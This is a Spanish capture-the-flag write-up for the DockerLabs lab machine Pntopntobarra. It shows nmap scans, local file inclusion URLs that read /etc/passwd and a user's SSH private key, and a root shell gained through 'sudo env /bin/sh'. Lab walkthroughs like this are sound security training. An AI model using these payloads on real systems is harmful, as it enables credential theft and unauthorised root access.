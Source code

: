 #MAQUINA #DOCKERLABS #FACIL 
#LFI
<hr>

# RECONOCIMIENTO

Vamos a resolver **Pntopntobarra** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 10:58 CET
Initiating ARP Ping Scan at 10:58
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 10:58, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:58
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 10:58, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-02 10:58:41 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.70 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 10:59 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.000016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 2e:4a:72:a0:b2:40:3a:36:99:c9:2d:a7:62:61:16:e7 (ECDSA)
|_  256 7c:7d:78:7a:20:2b:d0:75:92:26:1b:41:3c:ca:79:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Advertencia: LeFvIrus
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.56 seconds


```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-02 10:59 CET
Nmap scan report for escolares.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)
Al revisar la web que hay en el puerto 80, vemos que hay un botón ver ejemplos maquinas infectadas.
Y al hacer click podemos sospechar que hay un posible LFI , URL :

   ```bash

http://172.17.0.2/ejemplos.php?images=./ejemplo1.png

```

# EXPLOTACION

Intentamos ver el /etc/hosts :

   ```bash

http://172.17.0.2/ejemplos.php?images=/etc/hosts

```

Efectivamente, tenemos un LFI. Vamos a ver si podemos apuntar a /etc/passwd y sacar algun usuario: 

   ```bash

http://172.17.0.2/ejemplos.php?images=/etc/passwd

```

Usuario -> **nico**

Vemos si tiene una clave privada de ssh en su directorio personal (/home/nico/.ssh/id_rsa):

   ```bash

http://172.17.0.2/ejemplos.php?images=/home/nico/.ssh/id_rsa

```

La tiene, ahora podemos acceder con su clave privada:

   ```bash

ssh nico@172.17.0.2 -i id_rsa
Linux 057f03d92e0d 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Aug 21 21:11:09 2024 from 172.17.0.1
nico@057f03d92e0d:~$ 

```
# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
nico@057f03d92e0d:~$ sudo -l
Matching Defaults entries for nico on 057f03d92e0d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User nico may run the following commands on 057f03d92e0d:
    (ALL) NOPASSWD: /bin/env


```

Vemos **bash** con permisos SUDO :
   ```bash
nico@057f03d92e0d:~$ sudo env /bin/sh
# whoami
root
# 
```

**YA ESTAMOS COMO ROOT.**